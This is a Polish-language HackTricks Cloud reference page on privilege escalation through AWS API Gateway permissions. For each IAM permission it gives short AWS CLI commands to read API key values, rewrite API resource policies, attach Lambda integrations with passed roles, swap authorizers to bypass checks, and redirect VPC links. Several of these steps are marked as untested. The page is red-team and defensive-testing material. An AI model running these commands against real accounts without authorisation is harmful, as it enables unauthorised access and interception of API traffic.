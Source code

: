 # AWS - Eskalacja uprawnień w Apigateway

<details>

<summary><strong>Nauka hakowania AWS od zera do bohatera z</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>

## Apigateway

Aby uzyskać więcej informacji, sprawdź:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### `apigateway:POST`

Z tym uprawnieniem możesz generować klucze API skonfigurowane dla interfejsów API (na region).
```bash
aws --region <region> apigateway create-api-key
```
**Potencjalne skutki:** Nie można uzyskać podwyższenia uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:GET`

Z tym uprawnieniem możesz uzyskać wygenerowane klucze API skonfigurowanych interfejsów API (na region).
```bash
aws --region <region> apigateway get-api-keys
aws --region <region> apigateway get-api-key --api-key <key> --include-value
```
**Potencjalny wpływ:** Nie można uzyskać podwyższenia uprawnień za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:UpdateRestApiPolicy`, `apigateway:PATCH`

Z tymi uprawnieniami możliwe jest modyfikowanie polityki zasobu interfejsu API, aby uzyskać dostęp do jego wywołania i nadużyć potencjalnego dostępu, jaki może mieć brama API (na przykład wywołując podatną lambdę).

{% code overflow="wrap" %}
```bash
aws apigateway update-rest-api \
--rest-api-id api-id \
--patch-operations op=replace,path=/policy,value='"{\"jsonEscapedPolicyDocument\"}"'
```
{% endcode %}

**Potencjalne skutki:** Zazwyczaj nie będziesz w stanie uzyskać podwyższenia uprawnień bezpośrednio za pomocą tej techniki, ale możesz uzyskać dostęp do wrażliwych informacji.

### `apigateway:PutIntegration`, `apigateway:CreateDeployment`, `iam:PassRole`

{% hint style="info" %}
Wymaga testów
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:PutIntegration`, `apigateway:CreateDeployment` i `iam:PassRole` może **dodać nową integrację do istniejącego interfejsu API Gateway REST API z funkcją Lambda, która ma przypisaną rolę IAM**. Atakujący może następnie **wywołać funkcję Lambda w celu wykonania arbitralnego kodu i potencjalnie uzyskać dostęp do zasobów powiązanych z rolą IAM**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"
LAMBDA_ROLE_ARN="arn:aws:iam::account-id:role/lambda-role"

# Add a new integration to the API Gateway REST API
aws apigateway put-integration --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --type AWS_PROXY --integration-http-method POST --uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations --credentials $LAMBDA_ROLE_ARN

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Dostęp do zasobów powiązanych z rolą IAM funkcji Lambda.

### `apigateway:UpdateAuthorizer`, `apigateway:CreateDeployment`

{% hint style="info" %}
Wymaga testów
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:UpdateAuthorizer` i `apigateway:CreateDeployment` może **modyfikować istniejącego autoryzatora bramy API** w celu ominięcia kontroli bezpieczeństwa lub wykonania arbitralnego kodu podczas wysyłania żądań API. 

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
AUTHORIZER_ID="your-authorizer-id"
LAMBDA_FUNCTION_ARN="arn:aws:lambda:region:account-id:function:function-name"

# Update the API Gateway authorizer
aws apigateway update-authorizer --rest-api-id $API_ID --authorizer-id $AUTHORIZER_ID --authorizer-uri arn:aws:apigateway:region:lambda:path/2015-03-31/functions/$LAMBDA_FUNCTION_ARN/invocations

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Potencjalne skutki**: Ominięcie kontroli bezpieczeństwa, nieautoryzowany dostęp do zasobów interfejsu API.

### `apigateway:UpdateVpcLink`

{% hint style="info" %}
Wymaga testowania
{% endhint %}

Atakujący posiadający uprawnienia `apigateway:UpdateVpcLink` może **zmodyfikować istniejące połączenie VPC, aby wskazywało na inny Network Load Balancer, potencjalnie przekierowując ruch prywatnego interfejsu API do nieautoryzowanych lub złośliwych zasobów**.
```bash
bashCopy codeVPC_LINK_ID="your-vpc-link-id"
NEW_NLB_ARN="arn:aws:elasticloadbalancing:region:account-id:loadbalancer/net/new-load-balancer-name/50dc6c495c0c9188"

# Update the VPC Link
aws apigateway update-vpc-link --vpc-link-id $VPC_LINK_ID --patch-operations op=replace,path=/targetArns,value="[$NEW_NLB_ARN]"
```
**Potencjalny wpływ**: Nieautoryzowany dostęp do prywatnych zasobów interfejsu API, przechwycenie lub zakłócenie ruchu API.

<details>

<summary><strong>Zacznij od zera i zostań ekspertem AWS Red Team dzięki</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Inne sposoby wsparcia HackTricks:

* Jeśli chcesz zobaczyć swoją **firmę reklamowaną w HackTricks** lub **pobrać HackTricks w formacie PDF**, sprawdź [**PLANY SUBSKRYPCYJNE**](https://github.com/sponsors/carlospolop)!
* Zdobądź [**oficjalne gadżety PEASS & HackTricks**](https://peass.creator-spring.com)
* Odkryj [**Rodzinę PEASS**](https://opensea.io/collection/the-peass-family), naszą kolekcję ekskluzywnych [**NFT**](https://opensea.io/collection/the-peass-family)
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podziel się swoimi sztuczkami hakerskimi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) na GitHubie.

</details>
